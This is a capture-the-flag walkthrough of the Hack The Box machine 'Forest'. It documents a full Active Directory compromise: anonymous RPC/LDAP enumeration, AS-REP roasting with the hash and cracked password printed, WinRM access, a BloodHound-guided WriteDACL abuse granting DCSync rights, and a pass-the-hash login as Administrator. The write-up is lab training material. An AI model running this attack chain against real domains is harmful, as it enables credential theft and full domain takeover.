---
tags:
  - box
platform: HTB
os: Windows
difficulty:
date_completed:
mitre_attack: T1087.002, T1558.004, T1110.002, T1021.006, T1098, T1003.006, T1550.002
status: rooted
---

## Target

**IP Address:** 10.129.137.41

## Recon

### Port Scan

#Nmap

```bash
sudo nmap -T4 -O -sV -sC -p- -oA targetScan 10.129.137.41
```

#### Findings

There are a lot of ports open on this machine. At this point I am not sure where to start but I do see a few promising ports:

- 53 - DNS
- 88 - Kerberos
- 135 - Netbios
- 139 - Netbios
- 389 - LDAP
- 445 - SMB/Netbios

Host Name: Forest
OS: Windows Server 2016 Standard 14393 (6.3)
Domain: htb.local
FQDN: FOREST.htb.local

Nmap Script found SMB info using guest account. Might be able to get more information this way manually.

*Port Scan Results*


*Nmap Script Results*


## Enumeration

### RPC

#RPCclient

```bash
rpcclient -N -U "" 10.129.137.129
```

Connects to the RPC ports to get info.

```rpcclient
enumdomgroups
```



```rpcclient
enumdomusers
```



```rpcclient
netshareenumall
```



```rpcclient
enumdomains
```



```rpcclient
querydominfo
```



### LDAP

#LDAPSearch

```bash
ldapsearch -x -H ldap://10.129.137.129 -b "DC=htb,DC=local"
```

This output was helpful because it gave us a list of users on the machine and let us know that we can use LDAP without credentials. There was too much output for a picture to be beneficial.

## Exploitation

#impacket #impacket-GetNPUser

```bash
impacket-GetNPUsers -no-pass -dc-ip 10.129.137.129 htb/svc-alfresco -outputfile krbtgt.hash
```

This gives us the AS-REP hash for the svc-alfresco account (AS-REP Roasting - the account has Kerberos pre-authentication disabled):

```
$krb5asrep$23$svc-alfresco@HTB:7d46760a4e49391d6027172348fe1484$02f22e4373a47032b6c403fa40d9f02cefb1e9c5414414510b7803063fcbfa52c0583b3502034bf0b529651e7e303c8e8a1eb2b6d5db4eb0e693f8394320405b5c3b138f38c23a91a4e4eb434683dd292eea148d569956c412121d4ddb56973cc842894c7cd04be1d1eb8a72777ffa59bdf87973d0a5b1cf4d345345f10368930b80bb01784b8ee6341723272cc3c565a1679c360f26f1a1437e0365e4e4750f5e5bac391e4c46227ddac95ccff29413ee7de0c5cf8d3186681ca5711148ebbf03ee048932d4b135e13352ee8039ee33a31ebc3fcadf631db16dca988a12179b
```

#Hashcat

Now I can use hashcat to try and get the real password.

```bash
hashcat -m 18200 -a 0 krbTicket.hash /usr/share/wordlists/rockyou.txt
```

This cracked the password and gave us this user's password: `s3rvice`

#Crackmapexec

Now I can use crackmapexec to check this password and verify that it works on the system.

```bash
crackmapexec winrm 10.129.137.129 -d htb.local -u svc-alfresco -p s3rvice
```

This gave us the output "Pwned!", meaning the password is correct and we have system access.

#Evil-winrm

Now I can use evil-winrm to try and get remote access on the system.

```bash
evil-winrm -u svc-alfresco -p s3rvice -i 10.129.137.129
```



I now have remote shell access to the system as svc-alfresco.

Going into the desktop folder on the machine I found the user flag and was able to type it to the screen.

```powershell
cd ../Desktop
ls
type user.txt
```



## Privilege Escalation

Now that I have a foothold on the machine, I need to find a way to escalate my privileges in the domain. This is where SharpHound and BloodHound come in.

#Sharphound

```powershell
upload SharpHound.exe
start SharpHound.exe
```



Now that SharpHound has been uploaded to the system and run, it is time to ingest the data into BloodHound so that I can analyze it.



Looking at the data, I can see that there is a group that has WriteDACL access to the domain. This will allow us to create an account and get permissions to grab hashes.

Now I created an account named `pwnd` and added it to the needed groups.



Next I created a password variable and credential variable to use with PowerShell and then gave the account permission to do DCSync in order to get the hashes from the domain controller.



Using the Impacket toolkit I was able to use the new account and dump all of the password hashes that were in the database (DCSync) - pictured below is the Administrator hash, which is what we need.



Again, using Impacket, I was able to use the `psexec` module to log in to the machine by passing the hash of the Administrator account (pass-the-hash).



## Flags

**User:** captured via `type user.txt` on the Desktop as svc-alfresco (see screenshot above)

**Root/System:** captured after DCSync + pass-the-hash as Administrator



## Lessons Learned

Accounts with Kerberos pre-authentication disabled (AS-REP Roastable) can be identified and their ticket cracked entirely without any credentials - `impacket-GetNPUsers -no-pass` against a full username list is always worth trying early. BloodHound's WriteDACL/WriteOwner edges on the domain object are one of the most direct paths to Domain Admin once you have a single low-priv AD account - granting DCSync rights to a controlled account and dumping the Administrator hash via Impacket, then pass-the-hash, closed this one out.
